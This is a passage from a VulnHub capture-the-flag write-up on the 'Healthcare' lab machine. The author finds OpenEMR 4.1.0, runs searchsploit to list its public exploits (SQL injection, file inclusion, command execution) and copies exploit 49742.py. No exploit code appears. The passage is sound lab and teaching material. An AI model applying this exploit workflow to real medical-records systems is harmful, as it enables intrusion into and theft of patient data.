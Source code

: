 Right off the bat, we see "**OpenEMR v4.1.0**".

> OpenEMR is the most popular open source electronic health records and medical practice management solution. (From [https://www.open-emr.org/](https://www.open-emr.org/))

## Initial Foothold

**Armed with above information, let's search for public exploits for this version of OpenEMR via `searchsploit`:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:20:09(HKT)]
└> searchsploit OpenEMR 4.1
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenEMR 4.1 - '/contrib/acog/print_form.php?formname' Traversal Local File Inclusion                                     | php/webapps/36650.txt
OpenEMR 4.1 - '/Interface/fax/fax_dispatch.php?File' 'exec()' Call Arbitrary Shell Command Execution                     | php/webapps/36651.txt
OpenEMR 4.1 - '/Interface/patient_file/encounter/load_form.php?formname' Traversal Local File Inclusion                  | php/webapps/36649.txt
OpenEMR 4.1 - '/Interface/patient_file/encounter/trend_form.php?formname' Traversal Local File Inclusion                 | php/webapps/36648.txt
OpenEMR 4.1 - 'note' HTML Injection                                                                                      | php/webapps/38654.txt
OpenEMR 4.1.0 - 'u' SQL Injection                                                                                        | php/webapps/49742.py
OpenEMR 4.1.1 - 'ofc_upload_image.php' Arbitrary File Upload                                                             | php/webapps/24492.php
OpenEMR 4.1.1 Patch 14 - Multiple Vulnerabilities                                                                        | php/webapps/28329.txt
OpenEMR 4.1.1 Patch 14 - SQL Injection / Privilege Escalation / Remote Code Execution (Metasploit)                       | php/remote/28408.rb
OpenEMR 4.1.2(7) - Multiple SQL Injections                                                                               | php/webapps/35518.txt
Openemr-4.1.0 - SQL Injection                                                                                            | php/webapps/17998.txt
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Oh! OpenEMR version 4.1.0 is vulnerable to SQL injection?

**After some trial and error, only `49742.py` Python exploit script works:**
```
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:21:07(HKT)]
└> searchsploit -m 49742     
  Exploit: OpenEMR 4.1.0 - 'u' SQL Injection
      URL: https://www.exploit-db.com/exploits/49742
     Path: /usr/share/exploitdb/exploits/php/webapps/49742.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/siunam/ctf/VulnHub/Healthcare:1/49742.py
```
